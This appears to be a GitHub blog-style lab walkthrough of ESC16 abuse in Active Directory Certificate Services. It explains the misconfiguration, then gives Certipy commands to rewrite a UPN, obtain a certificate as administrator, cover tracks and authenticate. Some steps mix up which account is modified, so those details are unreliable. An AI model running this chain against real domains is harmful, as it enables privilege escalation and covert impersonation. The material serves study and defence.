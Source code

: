# 🔐 Active Directory Certificate Services (ADCS) - Enterprise CA Security Configuration 16 (ESC6) Abuse Guide


Misconfigurations in Active Directory Certificate Services (AD CS) can enable low-privileged users to escalate their privileges within an Active Directory environment. While there is limited detailed documentation available on **ESC16**, I decided to explore and document this specific attack path. This blog focuses on **ESC16**, a misconfiguration that weakens strong certificate mapping, potentially allowing attackers to impersonate privileged users through certificate-based authentication.

### ESC 16 Security Extension Disabled on CA (Globally):

ESC16 refers to a configuration flaw in Active Directory Certificate Services (AD CS) where the Certificate Authority (CA) is set to omit the `szOID_NTDS_CA_SECURITY_EXT` extension (OID: `1.3.6.1.4.1.311.25.2`) from all issued certificates. This extension, introduced in recent Windows updates, plays a crucial role in securely binding certificates to user or computer accounts through their unique Security Identifiers (SIDs).

The misconfiguration occurs when this OID is added to the CA’s `DisableExtensionList` registry key, located at:

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\<CA-Name>\PolicyModules\<PolicyModuleName>
```

When configured this way, the CA issues certificates without embedding the SID-based security extension. As a result, all templates published by this CA behave as though they explicitly disable the use of secure SID mappings, significantly weakening certificate-based authentication.

If Domain Controllers are not enforcing strict certificate mapping — specifically, if the `StrongCertificateBindingEnforcement` registry value is not set to 2 (Full Enforcement mode)—they fall back to older, less secure mapping techniques. These methods often rely on values like the User Principal Name (UPN) or DNS name found in the Subject Alternative Name (SAN) field of the certificate.

This weakened validation process creates an attack path where a low-privileged user can request a certificate impersonating a privileged account, bypassing SID-based verification and potentially escalating privileges within the Active Directory environment.

### Understanding szOID_NTDS_CA_SECURITY_EXT (OID: 1.3.6.1.4.1.311.25.2)

The `szOID_NTDS_CA_SECURITY_EXT` extension (OID: `1.3.6.1.4.1.311.25.2`) is a security feature used in Active Directory Certificate Services (AD CS). Internally referenced as `szOID_NTDS_CA_SECURITY_EXT<12>`, this extension is designed to embed the objectSid of the associated Active Directory object into the certificate being issued.

This extension is only considered by the Certificate Authority (CA) if the certificate template has the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag enabled. It allows the CA to construct subject information for a certificate using data tied directly to an AD object, ensuring stronger identity binding.

### Understanding StrongCertificateBindingEnforcement and Its Impact When Not Configured

The `StrongCertificateBindingEnforcement` registry setting governs how strictly a domain controller validates the binding between a certificate and its associated Active Directory object during authentication. This mechanism is crucial for mitigating certificate-based impersonation attacks, particularly in environments impacted by misconfigurations like ESC16.

#### Modes of Enforcement

- **Compatibility Mode (default until February 2025)**
  When the May 10, 2022 security update is installed, domain controllers operate in Compatibility mode by default. In this mode, they continue to accept weaker, legacy certificate mappings — such as relying on the User Principal Name (UPN) or DNS name in the Subject Alternative Name — even if strong certificate mapping data is missing.

- **Enforcement Mode (starting February 2025)**
  Beginning February 2025, domain controllers will default to Full Enforcement mode if the StrongCertificateBindingEnforcementregistry key is not explicitly configured. In this mode, only certificates containing valid strong mapping attributes will be accepted for authentication. If a certificate lacks the required attributes, authentication will be denied.

### Regitry Key Configuration

The behavior of this enforcement is controlled by the following registry path:

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc\
```

- `0` – **Disabled:** No strong mapping enforcement. Domain controllers rely entirely on legacy mappings.
- `1` – **Compatibility Mode:** Strong mappings are preferred, but fallback to legacy is allowed.
- `2` – **Full Enforcement:** Only certificates with valid strong mappings are accepted. Legacy mappings are rejected.


## Lab Environment Setup for Demonstrating ESC16 Exploitation

Disables the SAN restriction extension, allowing user-defined Subject Alternative Names in cert requests (ESC16 setup).

```
certutil -setreg policy\DisableExtensionList +1.3.6.1.4.1.311.25.2
```

Verifies which certificate extensions are currently disabled by the CA.

```
certutil -getreg policy\DisableExtensionList
```

Stops and restart Certificate Authority service to apply registry configuration changes.

```
net stop certsvc
net start certsvc
```

<img src="Imgs/image1.png" alt="Error loading image">

Sets KDC to not enforce strong binding between certificates and accounts, which is required to exploit ESC16.

```
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\Kdc\Parameters" -Name "StrongCertificateBindingEnforcement" -Value 0
```

Verifies that the StrongCertificateBindingEnforcement registry value is set to 0 (disabled).

```
Get-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\Kdc\Parameters" | Select-Object StrongCertificateBindingEnforcement
```

Restarts the KDC service to apply the updated binding enforcement setting.

```
Restart-Service kdc
```
<img src="Imgs/image2.png" alt="Error loading image">

To exploit ESC16, the user `jcharles` needs permission to modify the `userPrincipalName` (UPN) of another user, such as `martin`. By default, this is not allowed, and you'll see an error when trying to update it.

In **ADUC** (Active Directory Users and Computers):

- Go to Properties of user martin.
- Under the **Security tab → Advanced → Add**.

Grant jcharles `Write` permission on `martin`.

This simulates a misconfiguration where a low-privileged user has improper write access to another user’s attributes — sufficient to exploit ESC16.

<img src="Imgs/image3.png" alt="Error loading image">

## Enumerating AD CS for ESC16 Vulnerability

To identify whether the Active Directory Certificate Services (AD CS) environment is vulnerable to ESC16, we use the powerful tool Certipy, developed by **Oliver Lyak (ly4k)**.

```
certipy find -u 'jcharles' -p 'complex1@' -dc-ip 192.168.129.140 -stdout -vulnerable
```

<img src="Imgs/image4.png" alt="Error loading image">

The output confirms the **ESC16 vulnerability**, indicating the extension `1.3.6.1.4.1.311.25.2` is disabled, which weakens the binding between certificates and user accounts — a prerequisite for abusing ESC16.


## Exploitation of ESC16 Vulnerability Using Certipy

Step 1: Update UserPrincipalName (UPN) of martin

Using the credentials of user jcharles, we update martin userPrincipalName to impersonate another user (administrator):

```
certipy account -u 'jcharles' -p 'complex1@' -target 'furious.local' -upn 'administrator' -user 'martin' update
```

- his modifies the userPrincipalName attribute for jcharles to administrator.
- Allows jcharles to request certificates for the administrator identity.

Step 2: Verify the Attribute Update

```
certipy account -u 'jcharles' -p 'complex1@' -dc-ip 192.168.129.140 -user 'jcharles' read
```

Confirms userPrincipalName is now set to administrator.

Step 3: Request Certificate as administrator

```
certipy req -dc-ip '192.168.129.140' -u 'administrator' -p 'complex1@' -target 'furious.local' -ca 'furious-DC01-FURIOUS5-CA' -template 'User'
```

Step 4: Revert the UPN Change

```
certipy account -u 'jcharles' -p 'complex1@' -target 'furious.local' -upn 'charles' -user 'jcharles' update
```

Reverts userPrincipalName back to prevent suspicion or disruption.


Step 5: Authenticate Using the Stolen Certificate

```
certipy auth -pfx administrator.pfx -domain furious.local -dc-ip 192.168.129.140
```

### Conclusion

The ESC16 vulnerability in Active Directory Certificate Services (AD CS) arises when the `szOID_NTDS_CA_SECURITY_EXT` extension is globally disabled, weakening the certificate-to-account binding and allowing legacy mappings like UPN or SAN to be used for authentication. This misconfiguration, combined with the absence of strict enforcement (`StrongCertificateBindingEnforcement` not set to 2), enables attackers with limited privileges to impersonate higher-privileged users by modifying their own userPrincipalName and requesting a forged certificate. Through tools like Certipy, attackers can identify and exploit this flaw to gain unauthorized access. To prevent such attacks, organizations must ensure strong certificate binding enforcement is enabled, the critical OID extension is not disabled, and certificate templates and user permissions are strictly audited and configured.


